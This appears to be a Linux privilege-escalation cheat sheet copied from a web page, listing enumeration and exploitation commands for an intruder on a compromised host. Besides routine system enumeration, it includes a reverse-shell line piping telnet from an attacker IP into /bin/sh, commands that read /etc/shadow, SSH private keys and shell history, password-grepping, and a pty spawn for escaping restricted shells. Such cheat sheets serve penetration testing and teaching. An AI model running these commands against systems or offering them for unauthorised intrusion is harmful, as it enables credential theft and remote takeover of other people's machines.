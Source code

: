Linux Privilege Escalation Cheatsheet
Quick Wins
OS/Kernel Exploits
Search via Google or searchsploit for the OS (e.g., Ubuntu 14.04) or Kernel version (e.g., Linux Kernel 3.2.0).
Example search:

"Linux Kernel Privilege Escalation"

Sudo Rights

bash
Copy
Edit
sudo -l
Check sudo rights and look for vulnerable versions (also check if pkexec is available).

Cron Jobs

Enumerate jobs for all users.

Look for:

Writable scripts

Writable paths

Use of exploitable commands

Weak File Permissions

Writable system files (/etc/passwd, /etc/shadow, etc.)

SUID/SGID binaries

Files executed by root that are writable

SUID/SGID Binaries

Check for missing shared objects.

Search strings inside binaries.

Check shell versions for absolute function overwriting (bash, dash).

Information Gathering
Automation Tools
linuxprivchecker.py

upc.sh (unix-privesc-check)

LinEnum.sh

linux-exploit-suggester.sh

uptux

RootHelper

Operating System
OS Type and Version

bash
Copy
Edit
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
Kernel Version and Architecture

bash
Copy
Edit
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
Environmental Variables

bash
Copy
Edit
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
Printer Check

bash
Copy
Edit
lpstat -a
Applications & Services
Running Services

bash
Copy
Edit
ps aux
ps -ef
top
cat /etc/services
Services Running as Root

bash
Copy
Edit
ps aux | grep root
ps -ef | grep root
Installed Applications

bash
Copy
Edit
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archives
ls -alh /var/cache/yum/
Misconfigured Services

bash
Copy
Edit
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
Scheduled Jobs

bash
Copy
Edit
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
Plaintext Credentials

bash
Copy
Edit
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
Communications & Networking
NICs & Network Interfaces

bash
Copy
Edit
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
Network Configuration

bash
Copy
Edit
cat /etc/resolv.conf
iptables -L
hostname
dnsdomainname
Network Activity

bash
Copy
Edit
lsof -i
netstat -antup
netstat -tulpn
ARP and Routing

bash
Copy
Edit
arp -e
route
/sbin/route -nee
Packet Sniffing

bash
Copy
Edit
tcpdump tcp dst [ip] [port]
Shells and Reverse Shells

bash
Copy
Edit
nc -lvp 4444
telnet [attacker-ip] 4444 | /bin/sh | [local-ip] 4445
Port Forwarding

bash
Copy
Edit
ssh -L 8080:127.0.0.1:80 root@192.168.1.7
ssh -R 8080:127.0.0.1:80 root@192.168.1.7
Confidential Information & Users
User Enumeration

bash
Copy
Edit
id
who
last
cat /etc/passwd | cut -d: -f1
Sensitive Files

bash
Copy
Edit
cat /etc/passwd
cat /etc/shadow
ls -alh /var/mail/
Home Directories

bash
Copy
Edit
ls -ahlR /root/
ls -ahlR /home/
History Files

bash
Copy
Edit
cat ~/.bash_history
cat ~/.nano_history
cat ~/.mysql_history
SSH Keys

bash
Copy
Edit
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
cat /etc/ssh/ssh_host_rsa_key
File Systems
Writable Configs in /etc/

bash
Copy
Edit
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/'
/var/ Directory Content

bash
Copy
Edit
ls -alh /var/log
ls -alh /var/mail
Website Directories

bash
Copy
Edit
ls -alhR /var/www/
Log Files

bash
Copy
Edit
cat /var/log/auth.log
cat /var/log/syslog
cat /var/log/apache2/access.log
Jail Escape

bash
Copy
Edit
python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh -i
Mounted File Systems

bash
Copy
Edit
mount
df -h
fstab and Unmounted FS

bash
Copy
Edit
cat /etc/fstab
Sticky Bits, SUID & SGID

bash
Copy
Edit
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
Preparation & Finding Exploits
Installed Languages

bash
Copy
Edit
find / -name perl*
find / -name python*
find / -name gcc*
Upload Methods

bash
Copy
Edit
find / -name wget
find / -name nc*
find / -name ftp
Finding Exploits

exploit-db.com

1337day.com

securityfocus.com

seclists.org

metasploit.com

CVE Info

cvedetails.com

packetstormsecurity.org

cve.mitre.org

📌 Notes
Always record findings even if no immediate exploit is found.

Prioritize misconfigurations first, then escalate using kernel/OS exploits.

Manual checks often find what automation misses!
